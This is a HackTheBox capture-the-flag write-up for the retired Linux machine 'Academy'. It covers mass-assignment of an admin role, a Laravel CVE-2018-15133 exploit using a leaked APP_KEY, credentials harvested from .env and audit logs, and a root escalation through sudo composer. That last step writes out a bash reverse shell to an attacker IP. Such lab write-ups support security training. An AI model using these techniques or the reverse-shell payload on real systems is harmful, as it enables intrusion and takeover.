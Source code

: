 ```yaml
---
title: HackTheBox - Academy Writeup
subtitle: Here's my writeup for the RETIRED machine Academy, Which is an easy Linux machine!
date: '2021-04-25'
draft: false
authors: ['elleuch']
categories: ['HackTheBox', 'Easy']
tags: ['HackThebox', 'easy']
image: /assets/img/htb-academy/featured.jpg
---
```



# Information Gathering

## Nmap scan 

```
sudo nmap -sC -sV -T5 -oA nmap -O -A -v 10.10.10.215
```

<img src="/assets/img/htb-academy/nmap.png">

As we see we have 2 ports open <br/>
SSH on port 22 running OpenSSH 8.2p1 <br/>
http on port 80 running httpd 2.4.41 <br/>

we notice as well the academy.htb domain, which we should add to /etc/hosts.



## Gobuster scan 


```
gobuster dir -w /opt/SecLists/Discovery/Web-Content/raft-medium-files.txt -u http://academy.htb -x php
```

<img src="/assets/img/htb-academy/gob.png">


# Initial Foothold


## Identifying the exploit

So basically the first thing that tried was sql injection on <b> admin.php </b> but that didn't give me any results. as we don't have any potential users let's move on and dig further. <br/>

Let's create an account and see if we can find any usernames and intercept it with burp

```
POST /register.php HTTP/1.1
Host: academy.htb
Content-Length: 53
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://academy.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.146 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://academy.htb/register.php
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=sdloh07q837vauvt0oqevack4o
Connection: close
uid=elleuch&password=elleuch&confirm=elleuch&roleid=0
```
We can notice the <b>roleid</b>	parameter which is set to 0. we can assume that's assigning a role to the user we're creating. Which basically can be a normal user ( roleid=0 ) or a privileged user ( roleid=1 ).

Let's change change 0 to 1 and forward the request and create our privileged user and try to login to <b>/admin.php</b> 

<img src="/assets/img/htb-academy/planner.png">

As we see above the planner leaks to us a subdomain <b>dev-staging-01.academy.htb</b> <br/>
Let's add it to /etc/hosts and see what we get

<img src="/assets/img/htb-academy/laravel.png">

Errors! That sounds promosing! Scrolling down we can see something really interesting
```
APP_KEY	 "base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="
```
We have the APP_KEY! We can abuse <b>Laravel Unserialize Vulnerability CVE-2018-15133 </b> <br/>
For this exploit we'll be using this script, a pretty easy syntax.
```
https://github.com/aljavier/exploit_laravel_cve-2018-15133/blob/main/pwn_laravel.py
```

<img src="/assets/img/htb-academy/foothold.png">

And voilà we're on the box

# User Privesc

Now let's start enumarating,We already know that the webserver is running PHP Laravel. </br>
The first thing we should look at is the <b>.env</b> file. </br>

<img src="/assets/img/htb-academy/env.png">

And we get a password! <br />
`mySup3rP4s5w0rd!!` <br/>
Let's see if it belongs to any existing user

<img src="/assets/img/htb-academy/users.png">

After manually trying to switch to these users, it turns out to be cry0l1t3's password

<img src="/assets/img/htb-academy/logincry.png">

Our user is in the <b>adm</b> group! So basically we can read logs! And also we can read the audit log! We can grab some juicy informations from it

<img src="/assets/img/htb-academy/mrb3.png">

`data=6D7262336E5F41634064336D79210A`

Seems we got a password! But it's hex encoded! Let's decode it

<img src="/assets/img/htb-academy/pw.png">


`mrb3n_Ac@d3my!`

Seems like it's mrb3n's password! 

# Root Privesc

Mrb3n can execute <b>/usr/bin/composer</b> as root!

<img src="/assets/img/htb-academy/sudo.png">

Going through the docs of composer we can find out that we can execute a custom script using composer! we need to create a composer.json first in any folder we want!
```json
{ 
"scripts":{"shell":"/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.111/4444 0>&1'"}
}
```

We set our listener 


```
nc -lvnp 4444 
```

And execute 

```
sudo /usr/bin/composer --working-dir=fake run-script shell
```

<img src="/assets/img/htb-academy/root.png" >


And we rooted the box! <br/>
`uid=0(root) gid=0(root) groups=0(root)`


